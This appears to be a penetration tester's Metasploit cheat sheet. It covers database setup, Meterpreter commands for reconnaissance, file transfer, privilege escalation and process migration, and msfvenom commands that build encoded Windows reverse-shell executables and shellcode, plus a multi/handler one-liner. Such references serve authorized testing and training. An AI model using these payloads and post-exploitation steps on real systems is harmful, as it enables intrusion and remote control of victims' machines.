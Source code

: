 # Metasploit

## Database

Init Metaspolit database.

```bash
sudo msfdb init
```

Run postgresql service.

```bash
sudo systemctl enable postgresql
```

### Workspaces

Change between workspaces for sperating the projects' databases.

```batch
workspace -a <workspace_name>
```

### Nmap

`db_nmap` is a Nmap binary wrapper which saves results into Metasploit's database enables explore results later combined.

`hosts` - show found hosts and their operating system.

`services` - show found services and which host runs them.



## Search Module

Metasploit module types:

* **Exploit Modules**: Code to exploit vulnerabilities in systems.
* **Payload Modules**: Code executed on the target post-exploitation.
* **Auxiliary Modules**: Tools for scanning and information gathering.
* **Post Modules**: Actions taken on a compromised system.
* **Encoder Modules**: Obfuscate payloads to evade detection.
* **Nop Generator Modules**: Create NOP sleds for buffer overflows.
* **Listener Modules**: Set up a listener for incoming connections.

```batch
search type:<module_type> <module_name>
search <module_name>
```

## Meterpeter

### System information

Get system info

```batch
sysinfo
```

Get current user

```batch
getuid 
```

### Network

port fowarding

```
portfwd add -l <lport> -p <port> -r <rhost>
```

add route to the routing table

```
route add <subnet>/24 <session_id>
```



more useful commands

{% code overflow="wrap" %}
```batch
arp # Display the host ARP cache
getproxy # Display the current proxy configuration
ifconfig # Display interfaces ipconfig Display interfaces netstat Display the network connections 
resolve # Resolve a set of host names on the target 
```
{% endcode %}

### File System

commands with `l` prefix operate on the local system.

```batch
lcd <path>
lcat <file>
```

meterpeter allows extra file system commands like download or upload files from the local system to the target.

```batch
download <target_path> <local_path>
upload <local_path> <target_path>
```

### Channels

```batch
channels -l # listing channels
channels -i <channel_id> # use other channel
```

## Meterpeter Post Exploitation

How long the system is in idle which indicates if it's in use.

```batch
idletime
```

Elevate to system using [token-impersonation.md](../windows/local-privilege-escalation/token-impersonation.md "mention") methods automatically.

```batch
getsystem
```

migrating meterpeter process to other process.

```batch
migrate <dest_pid>
```

## MSFVenom

### Payloads

Search payloads for target platform

```batch
msfvenom -l payloads --platform windows --arch x64
```

Create executable payloads&#x20;

{% code overflow="wrap" %}
```batch
 # staged
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<host> LPORT=<port> -f exe -o rev.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<host> LPORT=<port> -f exe -o rev.exe
 # not staged
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<host> LPORT=<port> -f exe -o rev.exe
```
{% endcode %}

Generating shell code

{% code overflow="wrap" %}
```batch
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f powershell -v sc
```
{% endcode %}

Generating obfuscated shell code with bad words:

{% code overflow="wrap" %}
```batch
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
{% endcode %}

### Multi Handler

oneliner for multi handler

{% code overflow="wrap" %}
```bash
sudo msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <LHOST>;set LPORT <LPORT>;run;"
```
{% endcode %}

## References

{% embed url="https://www.rapid7.com/blog/post/2015/03/25/stageless-meterpreter-payloads/" %}

{% embed url="https://www.offsec.com/metasploit-unleashed/" %}
